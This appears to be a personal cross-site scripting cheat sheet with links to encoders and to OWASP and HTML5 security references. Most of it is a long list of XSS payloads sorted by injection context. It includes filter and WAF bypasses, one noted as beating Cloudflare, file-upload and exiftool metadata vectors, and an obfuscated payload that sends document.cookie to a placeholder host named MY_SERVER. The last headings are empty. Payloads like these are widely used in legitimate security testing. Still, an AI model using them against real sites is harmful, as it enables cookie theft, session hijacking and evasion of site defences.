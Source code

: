 
https://jsfuck.com/  ------------ Encoding the alert(1) payload to trigger XSS.
 
https://utf-8.jp/public/aaencode.html    ------------    aaencode - Encode any JavaScript program to Japanese style emoticons (^_^)
 
https://utf-8.jp/public/jjencode.html -----------------       Encoding the alert(1) payload to trigger XSS.
 
https://web.archive.org/web/20120308175425/http://www.andlabs.org/tools/jsrecon.html    --------------- Por Scanning with JS-Recon
 
 
data:text/html, <script>alert('self-xss')</script>
 
<span onmouseover="console.info('Sounds good')">Great Site</span> . If we paste the payload in the feedback form and we got only Great site message the site is vulnerable to Stored Xss.
 
https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html   --- XSS Cheat sheet.
 
https://html5sec.org/       ------- HTML5 Security cheat sheet.
 
 
<svg onload%09=alert(1)>
<svg %09onload=alert(1)>
<svg %09onload%20=alert(1)>
<svg onload%09%20%28%2C%3B=alert(1)>
<svg onload%0B=alert(1)> 
<scr<iframe>ipt>alert(1)</script>
 
Test"><svg/onload=alert(1)>
Test";alert(1);//
 
<object data="javascript:alert(1)">  -- blocked!!
 
<object data="data:text/html,<script>alert(1)</script>">
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="> -- Base64 encoding
 
Input --- <script>alert(1)</script> o/p: 'scriptalert()script'
 
associate"/<script>alert(1)<script>
 
Payload Used : "><img src=x onerror=alert(1)> [Blocked By Cloudflare]
 
Payload Used : "><img src=x onerrora=confirm() onerror=confirm(1)> [XSS Popup]
 
Payload -- </s</script>cri</script>pt><img src="x" on</script>error=d</script>ocu</script>ment</script>.</script>loca</script>tion</script>.</script>h</script>ref='MY_SERVER?cookie='+do</script>cumen</script>t.c</script>ooki</script>e>, which readable version is </script><img src="x" onerror=document.href='MY_SERVER?cookie='+document.cookie
 
HTML Injection
Use when input lands inside an attribute’s value of an HTML tag or outside tag except the ones described in next case. Prepend a “-->” to payload if input lands in HTML comments.
<svg onload=alert(1)>
"><svg onload=alert(1)>
 
HTML Injection – Tag Block Breakout
Use when input lands inside or between opening/closing of the following tags:
<title><style><script><textarea><noscript><pre><xmp> and <iframe> (</tag> is accordingly).
</tag><svg onload=alert(1)>
"></tag><svg onload=alert(1)>
 
HTML Injection - Inline
Use when input lands inside an attribute’s value of an HTML tag but that tag can’t be terminated by greater than sign (>).
"onmouseover=alert(1) //
"autofocus onfocus=alert(1) //
 
HTML Injection - Source
 
Use when input lands as a value of the following HTML tag attributes: href, src, data or action (also formaction). Src attribute in script tags can be an URL or “data:,alert(1)”.
javascript:alert(1)
 
Javascript Injection
Use when input lands in a script block, inside a string delimited value.
'-alert(1)-'
'/alert(1)//
 
 
Javascript Injection - Escape Bypass
Use when input lands in a script block, inside a string delimited value but quotes are escaped by a backslash.
\'/alert(1)//
 
Javascript Injection – Script Breakout
Use when input lands anywhere within a script block.
</script><svg onload=alert(1)>
 
Javascript Injection - Logical Block
Use 1st or 2nd payloads when input lands in a script block, inside a string delimited value and inside a single logical block like function or conditional (if, else, etc). If quote is escaped with a backslash, use 3rd payload.
'}alert(1);{'
'}alert(1)%0A{'
\'}alert(1);{//
 
Javascript Injection - Quoteless
 
Use when there’s multi reflection in the same line of JS code. 1st payload works in simple JS variables and 2nd one works in non-nested JS objects.
/alert(1)//\
/alert(1)}//\
 
Javascript Context - Placeholder Injection in Template LiteralUse when input lands inside backticks (``) delimited strings or in template engines.
${alert(1)}
 
Multi Reflection HTML Injection - Double Reflection (Single Input)
Use to take advantage of multiple reflections on same page.
'onload=alert(1)><svg/1='
'>alert(1)</script><script/1='
/alert(1)</script><script>/
 
Multi Reflection i HTML Injection - Triple Reflection (Single Input)
Use to take advantage of multiple reflections on same page.
/alert(1)">'onload="/<svg/1='
-alert(1)">'onload="<svg/1='
/</script>'>alert(1)/<script/1='
 
Multi Input Reflections HTML Injection - Double & Triple
Use to take advantage of multiple input reflections on same page. Also useful in HPP (HTTP Parameter Pollution) scenarios, where there are reflections for repeated parameters. 3rd payload makes use of comma-separated reflections of the same parameter.
p=<svg/1='&q='onload=alert(1)>
p=<svg 1='&q='onload='/&r=/alert(1)'>
q=<script/&q=/src=data:&q=alert(1)>
 
 
File Upload Injection – Filename
Use when uploaded filename is reflected somewhere in target page.
"><svg onload=alert(1)>.gif
 
 
File Upload Injection – Metadata
Use when metadata of uploaded file is reflected somewhere in target page. It uses command-line exiftool (“$” is the terminal prompt) and any metadata field can be set.
$ exiftool -Artist='"><svg onload=alert(1)>' xss.jpeg
 
 
File Upload Injection – SVG File
Use to create a stored XSS on target when uploading image files. Save content below as
“xss.svg”.
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>
 
 
DOM Insert Injection
Use to test for XSS when injection gets inserted into DOM as valid markup instead of being reflected in source code. It works for cases where script tag and other vectors won’t work.
<img src=1 onerror=alert(1)>
<iframe src=javascript:alert(1)>
<details open ontoggle=alert(1)>
<svg><svg onload=alert(1)>
 
 
DOM Insert Injection – Resource Request
Use when native javascript code inserts into page the results of a request to an URL that can be controlled by attacker.
data:text/html,<img src=1 onerror=alert(1)>
data:text/html,<iframe src=javascript:alert(1)>
 
 
PHP Self URL Injection
 
Learn More Tip and tricks don't forget subscribe my YouTube Channel:-https://www.youtube.com/@Hacksentrypro?sub_confirmation=1				
 			Payloads:
<script <script>>alert('l33t')</script>
 
'><img src=0 onerror=alert(1)>
'><img src=0 onerror=alert('l33t');> 
%22%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E%3C!--
<img src=x onerror="document.getElementById('ConsoleLog').stylebackgroundColor='red',"/>
 
Bypass client side xss filters:
x=<esi:assign name="var1" value="'cript'"/><s<esi:vars name="$(var1)"/>
>alert(/Chrome%20XSS%20filter%20bypass/);</s<esi:vars name="$(var1)"/>> 
 
<script>alert(/Chrome%20XSS%20filter%20bypass/);</script> 
 
<a href="http://foo.at"><script>alert(81)</script>"page=1">google </a>
 
iframe src="javascript:alert(1)">  
 
<span onmouseover="console.info('sounds good')">Great site</span>
 
%253c%252fscript%253e%253cscript%253ealert%2528document.cookie%2529%253c%252fscript%253e
  
 
Without even handlers
 
<form><button formaction=javascript:alert('l33t');>click
 
Encoding () characters html encoding
<svg><script>alert&lpar;'l33t'&rpar;
 
 <svg><script>alert&#x28;'l33t'&#x29;
 
<svg><script>confirm&lpar;'l33t'&rpar;   --- when alert is blocked (or )
<svg><script>confirm&lpar;'l33t'&rpar;</script></svg>
 
 
<svg onload=alert(1)>  bypass tec      <svg/onload=alert(1)>, <svg/////onload=alert(1)>, <svg id=x;onload=alert(1)>. 
<keygen autofocus onfocus=alert(1)>
<video><source onerror="alert(1)">
<marquee onstart=alert(1)>
 					
 				 
Encode the payload in multiple ways to bypass the restriction.
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 	
 					
 
 																					
 				 												
 	 
 
 
 
 
 
 
 
 
 
 
Fourth Type of XSS:
 
 
 
 
 
 
What we can do if we find out an XSS:
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
Bypassing the SCRIPT tags
